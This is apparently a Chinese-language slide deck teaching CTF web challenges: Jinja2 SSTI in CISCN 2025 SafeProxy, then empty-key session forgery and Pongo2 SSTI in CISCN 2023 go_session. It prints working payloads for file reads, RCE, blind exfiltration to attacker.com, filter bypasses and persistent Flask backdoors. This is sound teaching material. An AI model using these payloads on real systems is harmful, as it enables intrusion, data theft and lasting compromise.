






<!-- markdownlint-disable single-title no-inline-html heading-style blanks-around-headings no-duplicate-heading heading-increment-->

# CISCN 2025 SafeProxy

Tags: <Tag color="green">Jinja SSTI</Tag> <Tag color="blue">LFI</Tag> <Tag color="purple">Python</Tag>

<style>
h1 {
  background-color: #2B90B6;
  background-image: linear-gradient(45deg, #4EC5D4 10%, #146b8c 20%);
  background-size: 100%;
  -webkit-background-clip: text;
  -moz-background-clip: text;
  -webkit-text-fill-color: transparent;
  -moz-text-fill-color: transparent;
}
</style>

---

## 题目源码

```python {all|9-12|13-23|43-52|54-66|94-106|all}{lines:true, maxHeight:'90%'}
from flask import Flask, request, render_template_string
import socket
import threading
import html

app = Flask(__name__)

@app.route('/', methods=["GET"])
def source():
    with open(__file__, 'r', encoding='utf-8') as f:
        return '<pre>'+html.escape(f.read())+'</pre>'

@app.route('/', methods=["POST"])
def template():
    template_code = request.form.get("code")
    # 安全过滤
    blacklist = ['__', 'import', 'os', 'sys', 'eval', 'subprocess', 'popen', 'system', '\r', '\n']
    for black in blacklist:
        if black in template_code:
            return "Forbidden content detected!"
    result = render_template_string(template_code)
    print(result)
    return 'ok' if result is not None else 'error'

class HTTPProxyHandler:
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

    def handle_request(self, client_socket):
        try:
            request_data = b""
            while True:
                chunk = client_socket.recv(4096)
                request_data += chunk
                if len(chunk) < 4096:
                    break

            if not request_data:
                client_socket.close()
                return

            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as proxy_socket:
                proxy_socket.connect((self.target_host, self.target_port))
                proxy_socket.sendall(request_data)

                response_data = b""
                while True:
                    chunk = proxy_socket.recv(4096)
                    if not chunk:
                        break
                    response_data += chunk

            header_end = response_data.rfind(b"\r\n\r\n")
            if header_end != -1:
                body = response_data[header_end + 4:]
            else:
                body = response_data
                
            response_body = body
            response = b"HTTP/1.1 200 OK\r\n" \
                       b"Content-Length: " + str(len(response_body)).encode() + b"\r\n" \
                       b"Content-Type: text/html; charset=utf-8\r\n" \
                       b"\r\n" + response_body

            client_socket.sendall(response)
        except Exception as e:
            print(f"Proxy Error: {e}")
        finally:
            client_socket.close()

def start_proxy_server(host, port, target_host, target_port):
    proxy_handler = HTTPProxyHandler(target_host, target_port)
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind((host, port))
    server_socket.listen(100)
    print(f"Proxy server is running on {host}:{port} and forwarding to {target_host}:{target_port}...")

    try:
        while True:
            client_socket, addr = server_socket.accept()
            print(f"Connection from {addr}")
            thread = threading.Thread(target=proxy_handler.handle_request, args=(client_socket,))
            thread.daemon = True
            thread.start()
    except KeyboardInterrupt:
        print("Shutting down proxy server...")
    finally:
        server_socket.close()

def run_flask_app():
    app.run(debug=False, host='127.0.0.1', port=5000)

if __name__ == "__main__":
    proxy_host = "0.0.0.0"
    proxy_port = 5001
    target_host = "127.0.0.1"
    target_port = 5000

    # 安全反代，防止针对响应头的攻击
    proxy_thread = threading.Thread(target=start_proxy_server, args=(proxy_host, proxy_port, target_host, target_port))
    proxy_thread.daemon = True
    proxy_thread.start()

    print("Starting Flask app...")
    run_flask_app()
```

---

## 当用户输入成为代码：什么是服务器端模板注入？

SSTI 发生在用户输入被直接嵌入模板字符串中执行，而不是作为安全的数据上下文传递。

<div class="grid grid-cols-2 gap-4 my-4">
<div class="bg-red-50 dark:bg-red-900/10 border border-red-200 dark:border-red-800 p-4 rounded-lg">
<div class="flex items-center gap-2 text-red-600 dark:text-red-400 font-bold mb-2">
<div class="i-carbon-warning-filled" /> VULNERABLE
</div>
<div class="text-sm">

```python
template = f"Hello {user_input}"
render_template_string(template)
```

</div>
</div>
<div class="bg-green-50 dark:bg-green-900/10 border border-green-200 dark:border-green-800 p-4 rounded-lg">
<div class="flex items-center gap-2 text-green-600 dark:text-green-400 font-bold mb-2">
<div class="i-carbon-checkmark-filled" /> SAFE
</div>
<div class="text-sm">

```python
render_template_string("Hello {{ name }}", name=user_input)
```

</div>
</div>
</div>

### 为何 Jinja2 如此强大（且危险）？

Python 强大的 <span class="text-orange-500 font-bold">内省 (introspection)</span> 能力允许我们逃逸 Jinja2 沙箱。

<div class="flex flex-col gap-2 mt-4">
  <div class="flex items-center gap-2">
    <div class="i-carbon-tag text-blue-500" />
    <span><code>__class__</code>: 访问任何对象的类型。</span>
  </div>
  <div class="flex items-center gap-2">
    <div class="i-carbon-link text-blue-500" />
    <span><code>__mro__</code>: 遍历继承链，直至 object 基类。</span>
  </div>
  <div class="flex items-center gap-2">
    <div class="i-carbon-tree-view-alt text-blue-500" />
    <span><code>object.__subclasses__()</code>: 枚举解释器中所有已加载的类。</span>
  </div>
  <div class="flex items-center gap-2">
    <div class="i-carbon-improve-relevance text-red-500" />
    <span>最终目标：在众多子类中寻找危险方法（如文件 I/O、代码执行）。</span>
  </div>
</div>

---

## 经典利用链

<div class="flex flex-col gap-2 mt-4">



</div>

### 初步探测

使用多语言探针 (polyglot probes) 测试表达式求值行为。

| Payload | Expected (if SSTI) | Engine Hint |
| --- | --- | --- |
| `{{7*7}}` | <span class="bg-orange-100 text-orange-600 px-1 rounded">49</span> | Jinja2, Twig |
| `{{7*'7'}}` | <span class="bg-orange-100 text-orange-600 px-1 rounded">7777777</span> | Jinja2 (string multiplication) |
| `{{config}}` | [Config object dump] | Flask/Jinja2 |
| `{{self}}` | [Template object ref] | Jinja2 |

---
layout: two-cols-header
---

## 定位并访问 `__builtins__`

::left::

<div class="flex items-center gap-2 my-2">
  <div class="i-carbon-keep-dry text-blue-500" />
  <h3>寻找全局入口点</h3>
</div>
<!-- ### 寻找全局入口点 -->

Flask/Jinja2 默认提供了一些可利用的全局对象。

| Object | Access Path to `__globals__` |
| --- | --- |
| `lipsum` | `lipsum.__globals__` |
| `cycler` | `cycler.__init__.__globals__` |
| `url_for` | `url_for.__globals__` |
| `config` | (Direct access) |
| `request` | (Direct access) |

::right::

<div class="flex items-center gap-2 my-2">
  <div class="i-carbon-arrow-right text-red-400" />
  <h3>从入口点到 <code>__builtins__</code></h3>
</div>

`__builtins__` 包含了所有 Python 内置函数，如 <span class="bg-orange-200 dark:bg-orange-800 px-1 rounded">open</span>, <span class="bg-orange-200 dark:bg-orange-800 px-1 rounded">eval</span>, <span class="bg-orange-200 dark:bg-orange-800 px-1 rounded">\_\_import\_\_</span>。

Payload:

<div class="bg-gray-100 dark:bg-gray-800 p-2 rounded text-sm mb-4">
&lcub;&lcub; lipsum.__globals__["<span class="bg-orange-200 dark:bg-orange-800 px-1 rounded">__builtins__</span>"] &rcub;&rcub;
</div>

Payload (Bypass):

<div class="bg-gray-100 dark:bg-gray-800 p-2 rounded text-sm">
&lcub;&lcub; lipsum|attr("__globals__")|attr("__getitem__")("<span class="bg-orange-200 dark:bg-orange-800 px-1 rounded">__builtins__</span>") &rcub;&rcub;
</div>

---
layout: two-cols-header
---

## 从 `__builtins__` 到任意代码执行

::left::

<div class="flex items-center gap-2 my-4 text-xl font-bold text-red-600 dark:text-red-400">
  <div class="i-carbon-flash-filled" />
  <h3>通过 <code>__builtins__</code> 直接执行</h3>
</div>

<div class="flex flex-col gap-4">
  <div class="border-l-4 border-red-500 pl-4">
    <div class="font-bold mb-1 text-sm">读取敏感文件</div>
    <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-sm font-mono break-all border border-gray-200 dark:border-gray-700">
      <div class="text-gray-400 text-xs mb-1">// /etc/passwd</div>
      <div>&lcub;&lcub; lipsum.__globals__["<span class="text-red-600 font-bold">__builtins__</span>"]<span class="text-orange-600 font-bold">["open"]("/etc/passwd").read()</span> &rcub;&rcub;</div>
    </div>
  </div>

  <div class="border-l-4 border-red-500 pl-4">
    <div class="font-bold mb-1 text-sm">通过 <code>os.popen</code> 执行命令</div>
    <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-sm font-mono break-all border border-gray-200 dark:border-gray-700">
      <div class="text-gray-400 text-xs mb-1">// RCE</div>
      <div>&lcub;&lcub; lipsum.__globals__["<span class="text-red-600 font-bold">__builtins__</span>"]["__import__"]<span class="text-orange-600 font-bold">("os").popen("id").read()</span> &rcub;&rcub;</div>
    </div>
  </div>

  <div class="border-l-4 border-red-500 pl-4">
    <div class="font-bold mb-1 text-sm">通过 <code>eval</code> 执行代码</div>
    <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-sm font-mono break-all border border-gray-200 dark:border-gray-700">
      <div class="text-gray-400 text-xs mb-1">// RCE</div>
      <div>&lcub;&lcub; lipsum.__globals__["<span class="text-red-600 font-bold">__builtins__</span>"]["eval"]("<span class="text-orange-600 font-bold">__import__('os').popen('id').read()</span>") &rcub;&rcub;</div>
    </div>
  </div>
</div>

::right::

<div class="mx-2">
<div class="flex items-center gap-2 my-4 text-xl font-bold text-blue-600 dark:text-blue-400">
  <div class="i-carbon-flow" />
  <h3>通过子类 Gadget 执行</h3>
</div>

<div class="text-sm text-gray-500 mb-4">
  当直接访问 <code>__builtins__</code> 受限时，利用 <code>object.__subclasses__()</code> 寻找可用类。
</div>

<div class="bg-blue-50 dark:bg-blue-900/10 border border-blue-200 dark:border-blue-800 rounded-lg p-4 mb-4">
  <div class="flex items-center gap-2 font-bold text-blue-700 dark:text-blue-300 mb-2">
    <div class="i-carbon-terminal" />
    <span>subprocess.Popen (最常见)</span>
  </div>
  
  <div class="bg-white dark:bg-black/50 p-2 rounded border border-blue-100 dark:border-blue-900/50 font-mono text-xs overflow-x-auto">
    <div class="text-gray-400">// 1. 找到 Popen 类的索引</div>
    <div></div>
    <div class="text-gray-400 mt-1">// 2. 执行命令并获取输出</div>
    <div>&lcub;&lcub; popen("id", shell=True, stdout=-1).communicate()[0] &rcub;&rcub;</div>
  </div>
</div>

<div class="bg-gray-50 dark:bg-gray-800/50 border border-gray-200 dark:border-gray-700 rounded-lg p-3">
  <div class="text-xs font-bold text-gray-500 uppercase mb-1">Helper Script: Finding the Index</div>
  <div class="font-mono text-xs text-gray-600 dark:text-gray-400">
    # for i, cls in enumerate(object.__subclasses__()):<br/>
    #   if "Popen" in str(cls): print(i, cls)
  </div>
</div>
</div>

---

## 在无回显的场景下提取数据

当模板渲染结果不可见时（例如，只返回 'ok' 或 'error'），我们需要使用旁路信道 (side channels) 提取信息。

<div class="grid grid-cols-3 gap-x-4 gap-y-4 mt-8">

  <!-- Icons -->
  <div class="flex justify-center text-4xl text-blue-500"><div class="i-carbon-time" /></div>
  <div class="flex justify-center text-4xl text-red-500"><div class="i-carbon-warning" /></div>
  <div class="flex justify-center text-4xl text-green-500"><div class="i-carbon-export" /></div>

  <!-- Titles -->
  <div class="text-center font-bold text-lg -mt-2">时间盲注</div>
  <div class="text-center font-bold text-lg -mt-2">报错盲注</div>
  <div class="text-center font-bold text-lg -mt-2">带外数据提取 (OOB)</div>

  <!-- Descriptions -->
  <div class="text-sm text-gray-500 text-center -mt-2">根据条件的真假产生时间延迟。</div>
  <div class="text-sm text-gray-500 text-center -mt-2">根据条件的真假触发服务器错误 (500) 或正常响应 (200)。</div>
  <div class="text-sm text-gray-500 text-center -mt-2">让服务器主动将数据发送到攻击者控制的外部服务器。</div>

  <!-- Code Blocks -->
  <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-xs font-mono border border-gray-200 dark:border-gray-700 h-full">
    <div class="mb-1 text-gray-400"># Boolean check delay</div>
    <div class="break-all">
      &lcub;&lcub; ...<br/>
      <span class="bg-orange-100 dark:bg-orange-900 text-orange-600 dark:text-orange-300 rounded px-1">__import__("time").sleep(3)</span><br/>
      <span class="bg-emerald-100 dark:bg-emerald-900 text-emerald-600 dark:text-emerald-300 rounded px-1">if open("/flag").read()[0]=="f"</span><br/>
      else "" &rcub;&rcub;
    </div>
  </div>

  <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-xs font-mono border border-gray-200 dark:border-gray-700 h-full">
    <div class="mb-1 text-gray-400"># Trigger Error</div>
    <div class="break-all">
      &lcub;&lcub; ...<br/>
      <span class="bg-orange-100 dark:bg-orange-900 text-orange-600 dark:text-orange-300 rounded px-1">1/0</span><br/>
      <span class="bg-emerald-100 dark:bg-emerald-900 text-emerald-600 dark:text-emerald-300 rounded px-1">if open("/flag").read()[0]=="f"</span><br/>
      else "ok" &rcub;&rcub;
    </div>
  </div>

  <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-xs font-mono border border-gray-200 dark:border-gray-700 h-full flex flex-col gap-2">
    <div>
      <div class="font-bold text-gray-500 mb-1">HTTP Callback:</div>
      <div class="break-all">
        &lcub;&lcub; ...<span class="bg-orange-100 dark:bg-orange-900 text-orange-600 dark:text-orange-300 rounded px-1">__import__("urllib.request").urlopen("http://attacker.com/?d="+flag)</span> &rcub;&rcub;
      </div>
    </div>
    <div>
      <div class="font-bold text-gray-500 mb-1">DNS Exfiltration:</div>
      <div class="break-all">
        &lcub;&lcub; ...<span class="bg-orange-100 dark:bg-orange-900 text-orange-600 dark:text-orange-300 rounded px-1">__import__("socket").gethostbyname(flag+".attacker.com")</span> &rcub;&rcub;
      </div>
    </div>
  </div>

</div>

---

## 应用污染与持久化后门

通过修改 Flask 应用运行时的内部对象，我们可以将一次性漏洞转变为持久化访问。

<div class="grid grid-cols-3 gap-x-4 gap-y-4 mt-8">

  <!-- Titles -->
  <div class="text-center font-bold text-lg">替换视图函数</div>
  <div class="text-center font-bold text-lg">注入请求钩子</div>
  <div class="text-center font-bold text-lg"><code>__file__</code> 污染</div>

  <!-- Descriptions -->
  <div class="text-sm text-gray-500 text-center -mt-2">覆盖一个现有的路由处理函数，使其在被访问时执行我们的恶意代码。</div>
  <div class="text-sm text-gray-500 text-center -mt-2">使用 `after_request` 钩子，修改服务器的每一个响应。</div>
  <div class="text-sm text-gray-500 text-center -mt-2">如果应用有显示自身源码的功能 (<code>open(__file__).read()</code>)，我们可以污染 <code>__file__</code> 变量，使其指向任意文件。</div>

  <!-- Graphics/Icons -->
  <div class="flex justify-center items-center h-20 text-blue-500">
    <!-- Simplified Diagram Representation -->
    <div class="relative w-full max-w-[180px] h-16 border border-blue-200 bg-blue-50 rounded p-2 text-xs flex flex-col justify-center items-center">
      <div class="flex items-center gap-1 w-full justify-between px-2">
        <span class="bg-white border px-1 rounded">/endpoint</span>
        <div class="i-carbon-arrow-right" />
        <span class="bg-red-100 border border-red-200 px-1 rounded text-red-600">malicious</span>
      </div>
    </div>
  </div>

  <div class="flex justify-center items-center h-20 text-blue-800">
    <div class="i-carbon-harbor text-6xl" />
  </div>

  <div class="flex justify-center items-center h-20 text-blue-800">
    <div class="i-carbon-document-export text-6xl" />
  </div>

  <!-- Code Blocks -->
  <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-xs font-mono border border-gray-200 dark:border-gray-700 h-full">
    <div class="break-all">
      <br/>
      <span class="text-gray-400">// 覆盖 /target_endpoint 的处理逻辑</span><br/>
      &lcub;&lcub; app.view_functions.__setitem__("target_endpoint", <span class="bg-orange-100 dark:bg-orange-900 text-orange-600 dark:text-orange-300 rounded px-1">eval</span>) &rcub;&rcub;
    </div>
  </div>

  <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-xs font-mono border border-gray-200 dark:border-gray-700 h-full">
    <div class="text-gray-400 mb-1">// 动态注册钩子函数</div>
    <div class="break-all">
      <br/>
      &lcub;&lcub; exec("app.after_request(<span class="bg-orange-100 dark:bg-orange-900 text-orange-600 dark:text-orange-300 rounded px-1">lambda r: setattr(r,'data',open('/flag').read().encode()) or r</span>)", {"app": app}) &rcub;&rcub;
    </div>
  </div>

  <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-xs font-mono border border-gray-200 dark:border-gray-700 h-full flex flex-col justify-center">
    <div class="break-all">
      &lcub;&lcub; url_for|attr('_globals')|attr('__setitem__')('<span class="bg-orange-100 dark:bg-orange-900 text-orange-600 dark:text-orange-300 rounded px-1">__file__</span>', '/flag') &rcub;&rcub;
    </div>
  </div>

</div>

---
layout: two-cols-header
---

::left::

### 常见过滤器绕过方案

<div class="text-sm mx-2">

| 被拦截 | 解决方案 |
| --- | --- |
| `__` | `"_" + "_"` / `"_" ~ "_"` / `request.args` |
| `.` | `\|attr("x")` / `["key"]` |
| `[]` | `\|attr("__getitem__")(key)` |
| `'` / `"` | `request.args` / `request.cookies` |
| `_` | `"\x5f"` (hex) / `chr(95)` |
| `\|` | bracket notation `["key"]` (no filters) |
| `attr` | `["key"]` / `__getattribute__()` |
| `import` | `"_" ~ "_imp" ~ "ort_" ~ "_"` |
| `os` | `"o" ~ "s"` / subclass gadget |
| `popen` | `"po" ~ "pen"` / `"p\x6fpen"` |

</div>

::right::

### 常用字符 Hex 编码

<div class="text-sm mx-2">

| Symbol | Hex Escape |
| --- | --- |
| `_` | `\x5f` |
| `.` | `\x2e` |
| `[` | `\x5b` |
| `]` | `\x5d` |
| `'` | `\x27` |
| `"` | `\x22` |

</div>

<style>
td {
  padding: 0.25rem 0.5rem;
}
</style>

---

## 焚诀：♿

[Marven11/Fenjing](https://github.com/Marven11/Fenjing)

---
layout: center
transition: fade-out
---

# CISCN 2023 go_session

Tags: <Tag color="green">Go Pongo2 SSTI</Tag> <Tag color="blue">SSRF</Tag> <Tag color="purple">Flask</Tag>

<style>
h1 {
  background-color: #2B90B6;
  background-image: linear-gradient(45deg, #4EC5D4 10%, #146b8c 20%);
  background-size: 100%;
  -webkit-background-clip: text;
  -moz-background-clip: text;
  -webkit-text-fill-color: transparent;
  -moz-text-fill-color: transparent;
}
</style>

---
layout: two-cols
---

## 应用架构与攻击面分析

首先，我们需要理解目标应用的结构。这是一个由 Go 和 Python 构建的复合型应用，两个服务之间存在内部通信。

<div class="flex items-center justify-center mt-12 gap-2 scale-90 origin-top-left">
    <!-- User -->
    <div class="flex flex-col items-center">
        <div class="i-carbon-user text-4xl mb-2"></div>
        <span class="text-sm">用户</span>
    </div>
    <div class="i-carbon-arrow-right text-xl text-gray-400"></div>
    <!-- Go Gin Box -->
    <div class="border-2 border-dashed border-blue-800 p-4 rounded-lg bg-blue-50/50 dark:bg-blue-900/10 relative">
        <div class="absolute -top-3 left-1/2 -translate-x-1/2 bg-blue-100 dark:bg-blue-800 text-blue-800 dark:text-blue-100 text-xs px-2 font-bold whitespace-nowrap">暴露的攻击面</div>
        <div class="w-36 h-40 bg-white dark:bg-gray-800 border-2 border-blue-600 rounded flex items-center justify-center text-center shadow-lg p-2 text-sm font-bold text-black dark:text-white">
            Go Gin 应用<br>(80端口)
        </div>
    </div>
    <!-- Arrow -->
    <div class="flex flex-col items-center -mx-2 z-10">
        <div class="text-[10px] font-mono bg-yellow-100 dark:bg-yellow-900 px-1 rounded border border-yellow-200 text-yellow-800 dark:text-yellow-200 mb-1">/flask?name=...</div>
        <div class="w-16 h-0.5 bg-blue-600 relative">
             <div class="absolute right-0 top-1/2 -translate-y-1/2 w-0 h-0 border-t-4 border-t-transparent border-b-4 border-b-transparent border-l-6 border-l-blue-600"></div>
        </div>
    </div>
    <!-- Python Flask Box -->
    <div class="border-2 border-dashed border-orange-400 p-4 rounded-lg bg-orange-50/50 dark:bg-orange-900/10 relative">
        <div class="absolute -top-3 left-1/2 -translate-x-1/2 bg-orange-100 dark:bg-orange-800 text-orange-800 dark:text-orange-100 text-xs px-2 font-bold whitespace-nowrap">内部服务</div>
        <div class="w-36 h-40 bg-white dark:bg-gray-800 border-2 border-blue-900 rounded flex flex-col items-center justify-center text-center shadow-lg p-2 text-sm font-bold text-black dark:text-white">
            <div>内部 Python Flask 服务</div>
            <div class="text-xs font-normal mt-2 text-gray-500">(127.0.0.1:5000)</div>
        </div>
    </div>
</div>

::right::

<div class="bg-white dark:bg-gray-800 border border-gray-200 dark:border-gray-700 shadow-md rounded-lg p-6 rotate-1 relative mt-10 ml-4 h-[400px]"
     style="background-image: linear-gradient(#e5e7eb 1px, transparent 1px), linear-gradient(90deg, #e5e7eb 1px, transparent 1px); background-size: 20px 20px; background-position: -1px -1px;">
  <div class="font-bold text-lg mb-4 border-b-2 border-gray-300 pb-2 text-black dark:text-white">核心组件与功能点</div>
  
  <div class="font-bold text-blue-600 dark:text-blue-400 mb-2">Go Gin 应用 (前端)</div>
  <ul class="list-disc pl-4 text-sm space-y-1 mb-4 text-gray-700 dark:text-gray-300">
    <li><code class="text-xs bg-gray-100 dark:bg-gray-700 px-1 rounded border border-gray-300 dark:border-gray-600">/admin</code>: 管理员后台，使用 Pongo2 模板引擎渲染。</li>
    <li><code class="text-xs bg-gray-100 dark:bg-gray-700 px-1 rounded border border-gray-300 dark:border-gray-600">/flask</code>: 存在 SSRF，将请求转发至内部 Flask 服务。</li>
    <li><code class="text-xs bg-gray-100 dark:bg-gray-700 px-1 rounded border border-gray-300 dark:border-gray-600">gorilla/sessions</code>: 用于会话管理。</li>
  </ul>

  <div class="font-bold text-green-600 dark:text-green-400 mb-2">Python Flask 应用 (后端)</div>
  <ul class="list-disc pl-4 text-sm space-y-1 text-gray-700 dark:text-gray-300">
    <li>运行在 <code class="text-xs bg-gray-100 dark:bg-gray-700 px-1 rounded border border-gray-300 dark:border-gray-600">127.0.0.1:5000</code>。</li>
    <li>开启了 Debug 模式，文件修改后服务会自动重载。</li>
  </ul>
</div>

---
layout: two-cols-header
---

## 空密钥引发的会话伪造

::left::

### 漏洞源码分析

```go {all|9|12|17-20|all}{lines:true, maxHeight:'80%'}
// route/route.go
package main

import (
  "net/http"
  "os"

  "github.com/gin-gonic/gin"
  "github.com/gorilla/sessions"
)

var store = sessions.NewCookieStore([]byte(os.Getenv("SESSION_KEY")))

func Admin(c *gin.Context) {
    session, err := store.Get(c.Request, "session-name")
    // ...
    if session.Values["name"] != "admin" {
        http.Error(c.Writer, "NO", http.StatusInternalServerError)
        return
    }
    // ...
}
```

::right::

<!-- Right: Attack Principle -->
<div class="ml-4">
  <div class="text-xl font-bold mb-4 text-orange-600 dark:text-orange-400">攻击原理</div>
  
  <div class="space-y-6">
    <!-- Step 1 -->
    <div class="flex gap-4">
        <div class="flex-none mt-1">
             <div class="bg-orange-100 text-orange-600 p-2 rounded-full">
                <div class="i-carbon-password text-2xl"></div>
             </div>
        </div>
        <div>
            <div class="font-bold text-lg">1. 空密钥</div>
            <div class="text-sm text-gray-600 dark:text-gray-300">
                <code>os.Getenv("SESSION_KEY")</code> 在目标环境变量不存在时，返回一个空字符串 <code>""</code>。
            </div>
        </div>
    </div>
    <!-- Step 2 -->
    <div class="flex gap-4">
        <div class="flex-none mt-1">
             <div class="bg-red-100 text-red-600 p-2 rounded-full">
                <div class="i-carbon-security text-2xl"></div>
             </div>
        </div>
        <div>
            <div class="font-bold text-lg">2. 库漏洞</div>
            <div class="text-sm text-gray-600 dark:text-gray-300">
                旧版的 <code>gorilla/sessions</code> 库 (依赖 <code>gorilla/securecookie</code> v1.1.1) 允许使用空密钥来签名和加密 Cookie。
            </div>
        </div>
    </div>
    <!-- Step 3 -->
    <div class="flex gap-4">
        <div class="flex-none mt-1">
             <div class="bg-blue-100 text-blue-600 p-2 rounded-full">
                <div class="i-carbon-user-role text-2xl"></div>
             </div>
        </div>
        <div>
            <div class="font-bold text-lg">3. 伪造身份</div>
            <div class="text-sm text-gray-600 dark:text-gray-300">
                攻击者可以在本地使用相同的空密钥，生成一个包含 <code>{"name": "admin"}</code> 的有效会话 Cookie。
            </div>
        </div>
    </div>
  </div>
</div>

---
layout: default
---

## Pongo2 SSTI 与 XSS WAF

进入 `/admin` 后，我们发现了新的机会——服务器端模板注入 (SSTI)，但它并非畅通无阻。

<div class="mt-4 relative">
    <div class="absolute -top-3 left-4 bg-gray-100 dark:bg-gray-800 px-2 text-xs font-bold text-gray-500 border border-gray-300 dark:border-gray-600 rounded">
        漏洞源码分析
    </div>
    <div class="bg-gray-50 dark:bg-gray-900 border border-gray-200 dark:border-gray-700 rounded-lg pt-6 pb-2 px-4 shadow-inner">

```go {5-6|9}{lines:true}
func Admin(c *gin.Context) {
    // ...
    name := c.DefaultQuery("name", "ssti")
    // highlight-start
    xssWaf := html.EscapeString(name)
    tpl, err := pongo2.FromString("Hello " + xssWaf + "!")
    // highlight-end
    // ...
    out, err := tpl.Execute(pongo2.Context{"c": c})
    // ...
}
```

</div>
</div>

<div class="grid grid-cols-2 gap-8 mt-4">
    <!-- Opportunity -->
    <div class="border-t-4 border-green-500 pt-4">
        <div class="flex items-center gap-2 text-xl font-bold mb-2 text-green-700 dark:text-green-400">
            <div class="i-carbon-checkmark-outline text-2xl"></div>
            机遇 (SSTI)
        </div>
